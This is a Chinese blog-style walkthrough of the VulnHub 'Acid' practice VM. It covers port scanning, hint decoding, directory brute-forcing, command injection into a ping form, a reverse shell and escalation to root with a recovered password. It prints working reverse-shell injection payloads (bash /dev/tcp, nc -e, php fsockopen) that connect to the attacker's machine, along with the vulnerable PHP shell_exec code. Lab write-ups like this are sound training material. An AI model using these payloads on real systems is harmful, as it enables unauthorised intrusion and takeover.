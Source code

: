 ```yaml
---
title: 渗透测试-vulnhub-acid
tags: 渗透测试
abbrlink: 26893
date: 2018-09-18 08:44:02
---
```


**备忘录,仅用来记录一些操作，具体环境可以参考红日安全**

<!-- more -->

# 信息搜集

## 确定ip地址

由于采用NAT模式，靶机ip地址一定在Vmware的NAT网段下。

> nmap -sP 192.168.31.0/24 [-oN filename]
>
> or:
>
> netdiscover

从而确定IP地址: `192.168.31.144`

## 端口扫描

> nmap -p1-65535 -sV [-oN filename] 192.168.31.144
>
> nmap -Pn -sV -p- 192.168.31.144

扫描结果如下:

```
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
MAC Address: 00:0C:29:8B:C2:9F (VMware)
```

33447端口存在Web服务。

## 服务识别

仅仅发现Web服务，所以只能从Web服务入手。

端口： TCP  33447

Web服务器: Apache 2.4.10

操作系统: Ubuntu

# 漏洞挖掘

## 查看源码

发现首页最后一行存在注释 `0x643239334c6d70775a773d3d`，转化成字符串如下:

```
>>> libnum.n2s(0x643239334c6d70775a773d3d)
'd293LmpwZw=='
```

一看就知道是Base64。

```
ht@DESKTOP-GUA7PSI:/mnt/d$ echo d293LmpwZw== | base64 -d
wow.jpg
```

直接访问`http://192.168.31.144:33447/wow.jpg`，返回404。

凭经验尝试了一下`http://192.168.31.144:33447/images/wow.jpg`，返回一张图片。

![](/assets/shentou/wow.jpg)

通过`strings`命令查看图片,发现新的提示：

```
ht@DESKTOP-GUA7PSI:/mnt/c/Users/ht/Desktop$ strings wow.jpg | tail -n 4
/Pp$t
( ++|]
H{      l
;37:61:65:65:30:66:36:64:35:38:38:65:64:39:39:30:35:65:65:33:37:66:31:36:61:37:63:36:31:30:64:34
```

将最后一行数字转为字符串:

```
>>> ''.join([chr(int('0x'+i, 16)) for i in "37:61:65:65:30:66:36:64:35:38:38:65:64:39:39:30:35:65:65:33:37:66:31:36:61:37:63:36:31:30:64:34".split(":")])
'7aee0f6d588ed9905ee37f16a7c610d4'
```

通过猜测，`7aee0f6d588ed9905ee37f16a7c610d4`应该是一串md5值。通过**cmd5.com**查询，得到值`63425`。暂时不知道是什么东西。

## 使用Dirbuster爆破目录

![](/assets/shentou/TIM截图20180925144512.png)

依次尝试`/Challenge/cake.php`， `/Challenge/include.php`, `/Challenge/index.php`。

其中`cake.php`需要登录。查看源码`title`标签，可以发现新的目录`Magic_box`。

`include.php`则存在文件包含漏洞,可以通过输入`/etc/passwd`来测试。

继续爆破"/Challenge/Magic_box“目录，发现新的页面`command.php`, `low.php`。

## 命令执行

`/Challenge/Magic_box`很明显存在命令执行漏洞，通过尝试输入`127.0.0.1;ls`， 可以发现当前目录下所有文件.

```
command.php
command.php.save
command2.php.save
command2.php.save.1
low.php
proc
tails.php
```

查看`command.php`源码。

```
<?php
include_once '../includes/db_connect.php';
include_once '../includes/functions.php';
?>
<?php
if( isset( $_POST[ 'submit' ] ) ) {
        $target = $_REQUEST[ 'IP' ];
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) { 
                $cmd = shell_exec( 'ping  ' . $target );
                $html .= '<pre>'.$cmd.'</pre>';
        } else { 
                $cmd = shell_exec( 'ping  -c 3 ' . $target );
                $html .= '<pre>'.$cmd.'</pre>';
                echo $cmd;
        }
}
```

## 反弹shell+提权

payload1: `127.0.0.1;/bin/bash -i >& /dev/tcp/192.168.31.130/1234 0>&1` 失败。

payload2: `127.0.0.1;nc -e /bin/bash -d 192.168.31130 1234` 失败。

payload3: `127.0.0.1;php -r '$sock=fsockopen("192.168.31.130",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` 成功。

```
root@kali:~# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.31.130] from (UNKNOWN) [192.168.31.144] 55051
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

提权，执行`su`命令，发现无法执行，需要从一个终端，才能执行`su`命令:

```
$ su
su: must be run from a terminal
```

解决方法，使用python调用本地`shell`。

```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py

python /tmp/asdf.py
```

结果如下：

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py

$ python /tmp/asdf.py
www-data@acid:/var/www/html/Challenge/Magic_Box$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

查看`/etc/passwd`，发现需要关注的用户有如下几个：`root`, `saman`, `acid`。

分别查看每个用户的文件:

> find / -user acid 2 >/dev/null

```
www-data@acid:/var/www/html/Challenge/Magic_Box$ find / -user acid 2>/dev/null
</Challenge/Magic_Box$ find / -user acid 2>/dev/null                         
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
/bin/pwn_me/chkrootkit
/bin/pwn_me/README.chkwtmp
```

将`hint.pcapng`拷贝到自己电脑上。

```
scp /sbin/raw_vs_isi/hint.pcapng root@192.168.31.130:/root/Desktop/
```

找到 `saman`的密码`1337hax0r`。

```
www-data@acid:/var/www/html/Challenge/Magic_Box$ su saman
su saman
Password: 1337hax0r

saman@acid:/var/www/html/Challenge/Magic_Box$ sudo -i
sudo -i
[sudo] password for saman: 1337hax0r

  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:~#
```










